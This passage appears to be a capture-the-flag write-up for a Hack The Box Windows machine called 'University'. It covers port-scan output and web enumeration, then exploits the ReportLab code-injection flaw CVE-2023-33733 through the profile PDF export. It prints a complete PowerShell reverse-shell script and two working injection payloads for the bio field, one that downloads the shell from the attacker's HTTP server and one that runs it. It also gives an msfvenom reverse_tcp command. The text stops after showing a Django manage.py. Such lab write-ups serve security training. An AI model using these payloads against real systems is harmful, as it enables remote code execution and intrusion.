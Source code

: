1,Recon
port scan
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          nginx 1.24.0
|_http-server-header: nginx/1.24.0
|_http-title: Did not follow redirect to http://university.htb/
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-30 10:16:06Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: university.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: university.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
63564/tcp open  msrpc         Microsoft Windows RPC
```

I would like check the index page of the default port 80
![](images/Pasted%20image%2020241029232455.png)

http://university.htb/accounts/login/SDC/
This page gives us a way to login with digital certificate.
![](images/Pasted%20image%2020241029232603.png)

So I guess there would be a target of exploitation, because of upload link.

By using burp to catch the packet, we found it just like a normal way to upload files and nothing interesting.
![](images/Pasted%20image%2020241029232902.png)

So let's try to register a valid account to find deeper target.
There are two choice of account for us
1,student account
![](images/Pasted%20image%2020241029233111.png)

After login to this account, we would be attractive by `request Signed-Cret`
![](images/Pasted%20image%2020241029233540.png)
For this request, I think if we can get the valid username of employee, then we can get their certificate easily.

2,professor account
![](images/Pasted%20image%2020241029233132.png)

In this place, it needs the employee to confirm the request to create the account of professor.So I guess there would be XSS vulner.

Firstly I would find the valid username for us.(Alright, this is a rabbit hole for us. Firstly, we could not get the valid user list and also we even did not have access to the request of account professor)

Let's continue enumerate the structure of  this service 
![](images/Pasted%20image%2020241030000219.png)

We can found this service is powered by nginx and python.

Let's continue check any valid exploitation to help us.
![](images/Pasted%20image%2020241030000337.png)
In this place, `profile export` link to `/accounts/profile/pdf` and we get the pdf version of our account.
Then by using `pdfinfo` to get the versions and information of this pdf
```
pdfinfo profile.pdf 
Title:           University | wither Profile
Subject:         
Keywords:        
Author:          
Creator:         (unspecified)
Producer:        xhtml2pdf <https://github.com/xhtml2pdf/xhtml2pdf/>
CreationDate:    Tue Oct 29 15:58:11 2024 EDT
ModDate:         Tue Oct 29 15:58:11 2024 EDT
Custom Metadata: no
Metadata Stream: no
Tagged:          no
UserProperties:  no
Suspects:        no
Form:            none
JavaScript:      no
Pages:           1
Encrypted:       no
Page size:       595.276 x 841.89 pts (A4)
Page rot:        0
File size:       7554 bytes
Optimized:       no
PDF version:     1.4

xhtml2pdf
About
A library for converting HTML into PDFs using ReportLab
```

Then we can search about the exploits of this project:
`https://github.com/c53elyas/CVE-2023-33733`
`CVE-2023-33733 reportlab RCE` 
`CODE INJECTION VULNERABILITY IN REPORTLAB PYTHON LIBRARY`

That means we get the RCE of target machine !!!!!

create a shell.ps1 on your machine like this:
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.x.x", 4444);
$stream = $client.GetStream();
[byte[]]$buffer = 0..65535|%{0};
while(($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2  = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
}
$client.Close()
```

start a webserver on your local machine
`python3 -m http.server 8000`

copy the following code into the bio field:
```
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('curl -o shell.ps1 http://10.10.16.17:8000/shell.ps1') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

click on profile icon (top right corner) -> profile export

next edit your bio to handle this shell:
```
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell ./shell.ps1') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

Then we finally get the shell as WAO

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.17 LPORT=443 -f ps1 > rev_shell.ps1`
Due to Windows Firewall, we cannot use any payload from msf to help us build backlinks


3, Switch to other users !!!!!
There is `db.sqlite3` file and manage.py
```
manage.py

#!/usr/bin/env python
"""Django's command-line utility for administrative tasks."""
import os
import sys


def main():
    """Run administrative tasks."""
    os.environ.setdefault('DJANGO_SETTINGS_MODULE', 'University.settings')
    try:
        from django.core.management import execute_from_command_line
    except ImportError as exc:
        raise ImportError(
            "Couldn't import Django. Are you sure it's installed and "
            "available on your PYTHONPATH environment variable? Did you "
            "forget to activate a virtual environment?"
        ) from exc
    execute_from_command_line(sys.argv)


if __name__ == '__main__':
    main()

```

